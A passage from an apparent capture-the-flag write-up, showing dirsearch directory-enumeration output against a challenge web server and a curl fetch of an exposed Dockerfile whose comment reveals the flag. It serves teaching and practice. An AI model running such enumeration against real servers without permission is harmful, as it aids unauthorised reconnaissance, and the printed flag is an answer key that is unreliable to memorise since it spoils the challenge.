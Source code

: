 [11:55:28] 403 -  199B  - /.htaccessOLD2
[11:55:28] 403 -  199B  - /.htaccessOLD
[11:55:28] 403 -  199B  - /.htaccess~
[11:55:28] 403 -  199B  - /.htgroup
[11:55:28] 403 -  199B  - /.htpasswd-old
[11:55:28] 403 -  199B  - /.htpasswd_test
[11:55:28] 403 -  199B  - /.htpasswds
[11:55:28] 403 -  199B  - /.htusers
[11:56:15] 200 -  107B  - /Dockerfile                                                                             
[11:56:26] 301 -  237B  - /icons  ->  http://ctf.kaf.sh:3040/icons/                                   
[11:56:28] 200 -    9KB - /index.html                                                                          
                                                                                                                  
Task Completed
srimbp-623:dirsearch sri$ 
```
* It was obvious `Dockerfile` was the one to build the image!

* The flag...
```
srimbp-623:kipodStab sri$ curl http://ctf.kaf.sh:3040/Dockerfile
FROM httpd:alpine

WORKDIR /usr/local/apache2/htdocs/

COPY . .

# Flag is KAF{dOn7_5748_doCK3R_CON741n3R2}srimbp-623:kipodStab sri$ 
```

### References
* https://books.google.com/books?id=FD1lDwAAQBAJ&pg=PT329&lpg=PT329&dq=apache-users+kali&source=bl&ots=0mVcuigl1i&sig=ACfU3U2wwpjjP8MXDfpcDE_u--0j5j3JoQ&hl=en&ppis=_c&sa=X&ved=2ahUKEwj7-u-ojs3mAhW1KX0KHd3QB0A4ChDoATACegQIBhAB#v=onepage&q=apache-users%20kali&f=false
* 

  
